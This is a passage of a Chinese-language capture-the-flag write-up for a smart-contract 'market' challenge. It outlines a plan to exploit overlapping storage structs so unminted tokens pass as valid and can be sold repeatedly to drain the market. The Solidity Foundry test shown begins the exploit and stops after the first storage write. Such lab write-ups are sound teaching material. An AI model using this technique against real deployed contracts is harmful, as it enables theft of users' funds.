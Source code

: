 因此，我们有了具体的解决思路：

1. mint一个有效的token，然后修改此token的四个属性
2. 直接与存储合约交互，由于结构体重叠，使得原本没被mint过的token也有效
3. 重复操作重叠部分的内容，使得我们可以重复卖出原本有效的token
4. 因为有手续费的原因，我们需要额外的操作来处理残留的手续费

## 解题

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.7.0;
pragma experimental ABIEncoderV2;

import "forge-std/Test.sol";
import "../../src/09.market/Setup.sol";

contract attackTest is Test {
    Setup public level;

    EternalStorageAPI public eternalStorage; // 存储
    CryptoCollectibles public token; // 业务逻辑
    CryptoCollectiblesMarket public market; // 市场

    function setUp() public {
        // 部署
        payable(0x5B38Da6a701c568545dCfcB03FcB875f56beddC4).transfer(100 ether);
        vm.startBroadcast(address(0x5B38Da6a701c568545dCfcB03FcB875f56beddC4));

        level = new Setup{value: 50 ether}();
        eternalStorage = level.eternalStorage();
        token = level.token();
        market = level.market();

        vm.stopBroadcast();
    }

    function test_isComplete() public{
        console.log("1.market init balance:",address(market).balance);
        // 1.mint token0, 至少要稍微大于50ETH，因为后面要额外扣除原来50ETH剩下的手续费
        /*
            tokenId_0.name:token_0
            tokenId_0.owner:address(this)
            tokenId_0.approval:0                    tokenId_1.name
            tokenId_0.metadata:0                    tokenId_1.owner
                                                    tokenId_1.approval
                                                    tokenId_1.metadata
         */
        // market: 100ETH + 50ETH
        bytes32 token_0 = market.mintCollectibleFor{value: 100 ether}(address(this));
        console.log("2.market mint token0:",address(market).balance);

        // 2.修改token_0.metadata, 让它等于address(this)
        /*
            tokenId_0.name:token_0
            tokenId_0.owner:address(this)
            tokenId_0.approval:0                    tokenId_1.name
            tokenId_0.metadata:address(this)        tokenId_1.owner
                                                    tokenId_1.approval
                                                    tokenId_1.metadata
         */
        // market: 100ETH + 50ETH
        eternalStorage.updateMetadata(token_0, address(this));

```
